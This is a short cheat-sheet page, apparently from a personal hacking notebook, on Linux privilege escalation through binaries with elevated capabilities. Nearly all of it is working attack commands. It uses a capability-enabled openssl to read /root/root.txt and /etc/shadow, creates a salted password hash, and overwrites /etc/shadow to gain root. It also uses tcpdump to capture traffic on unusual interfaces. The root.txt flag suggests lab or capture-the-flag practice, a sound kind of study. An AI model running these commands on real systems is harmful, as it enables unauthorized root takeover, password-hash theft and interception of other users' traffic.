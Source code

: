 
[Linux Privilege Escalation using Capabilities - Hacking Articles](https://www.hackingarticles.in/linux-privilege-escalation-using-capabilities/)

![[2b5171cc7bf44b8996e85892d1c26c35 1.png]]


# Guide

# OpenSSL

See [[OpenSSL]]
Capability `ep`, 

### Read

```
./openssl enc -base64 -in /root/root.txt -out ./root.txt.b64
base64 -d root.txt.b64
```
```

./openssl enc -base64 -in /etc/shadow -out ./shadow.b64
base64 -d shadow.b64 > shadow
```

### Write

```
openssl passwd -1 -salt root rick  #Makes a password
```

Edit shadow with these creds 

```
./openssl enc -in shadow -out /etc/shadow
```


# TCPDump

See [[TCPDump]]

Run:

```
tcpdump -D
```

Against any interfaces which look unusual:

```
timeout 150 tcpdump -w cap.pcap -i veth1665bcd
```
